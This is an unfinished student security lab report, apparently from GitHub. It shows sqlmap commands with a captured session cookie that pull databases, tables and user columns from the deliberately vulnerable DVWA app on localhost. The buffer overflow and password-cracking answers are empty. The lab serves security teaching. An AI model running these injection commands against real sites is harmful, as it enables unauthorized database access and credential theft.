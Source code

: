 # Lab #1,22110085, Nguyen Truong, INSE330380E_01FIE
# Task 1: Software buffer overflow attack

**Question 1**:



# Task 2: Attack on database of DVWA

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
Set up the database for DVWA and go to the webiste
In SQL Injection Blind Type in UserID then save the URL
<img src="https://github.com/letmehear159/IS-Lab/blob/master/image1.png" alt="screenShot"><br>

Then open the developerMod and copy the Cookie of the website:
<img src="https://github.com/letmehear159/IS-Lab/blob/master/Cookie.png" alt="screenShot"><br>
Open SqlMap and starting getting information about all databases : 
Running injection code :
```sh
python sqlmap.py -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=efp6tollc8ushf113hl3b4b155" --dbs
```
<img src="https://github.com/letmehear159/IS-Lab/blob/master/database.png" alt="screenShot"><br>

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
## Getting all tables:
Running injection code :
```sh
python sqlmap.py -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=efp6tollc8ushf113hl3b4b155" --tables
```
<img src="https://github.com/letmehear159/IS-Lab/blob/master/tables.png" alt="screenShot"><br>
## Getting all users information:
Running injection code :
```sh
python sqlmap.py -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=efp6tollc8ushf113hl3b4b155" --columns -T users --batch
```
<img src="https://github.com/letmehear159/IS-Lab/blob/master/users.png" alt="screenShot"><br>
**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
